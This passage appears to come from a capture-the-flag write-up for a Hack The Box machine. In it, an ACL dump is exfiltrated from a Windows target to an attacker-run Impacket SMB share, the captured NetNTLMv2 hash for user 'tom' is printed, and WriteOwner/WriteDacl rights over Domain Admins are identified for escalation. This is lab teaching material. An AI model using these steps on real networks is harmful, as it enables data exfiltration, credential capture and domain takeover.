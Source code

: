 We can transfer the `acls.csv` file by first launching an SMB server from our attack host.

<pre class="language-bash"><code class="lang-bash"><strong>$ smbserver -smb2support share ./
</strong>Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
</code></pre>

Next, from the target, we can connect to the share and copy the file.

```bash
# connect to the share
PS C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors> net use z: \\10.10.14.25\share
The command completed successfully.
# copy the file
PS C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors> cp acls.csv z:\acls.csv
```

Back on our attack host:

{% code overflow="wrap" %}
```bash
$ smbserver -smb2support share ./
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.77,54343)
[*] AUTHENTICATE_MESSAGE (HTB\tom,REEL)
[*] User REEL\tom authenticated successfully
[*] tom::HTB:aaaaaaaaaaaaaaaa:2a9a6f191f800cfa819552788efb61f0:01010000000000000017ea47817cda0152743fcea038cc9e00000000010010006c005600470045005000490079007000030010006c0056004700450050004900790070000200100067006c007400440045004900740046000400100067006c00740044004500490074004600070008000017ea47817cda0106000400020000000800300030000000000000000000000000300000c7f1ec40a782226df4aac02eb4a76fe72e37ea3152fddcd0fed40094074e14fd0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0032003500000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:share)
[*] Disconnecting Share(1:IPC$)
```
{% endcode %}

Since we only have credentials for the account `tom`, we should search information about it:

{% code overflow="wrap" %}
```bash
$ cat acls.csv | grep tom
"tom@HTB.LOCAL","USER","","Domain Admins@HTB.LOCAL","GROUP","WriteDacl WriteOwner","","AccessAllowed","False"
"tom@HTB.LOCAL","USER","","Enterprise Admins@HTB.LOCAL","GROUP","WriteDacl WriteOwner","","AccessAllowed","False"
"tom@HTB.LOCAL","USER","","Administrators@HTB.LOCAL","GROUP","WriteDacl WriteOwner","","AccessAllowed","False"
"tom@HTB.LOCAL","USER","","Local System@HTB.LOCAL","USER","GenericAll","","AccessAllowed","False"
"tom@HTB.LOCAL","USER","","Domain Admins@HTB.LOCAL","GROUP","Owner","","AccessAllowed","False"
"claire@HTB.LOCAL","USER","","tom@HTB.LOCAL","USER","WriteOwner","","AccessAllowed","False"
```
{% endcode %}
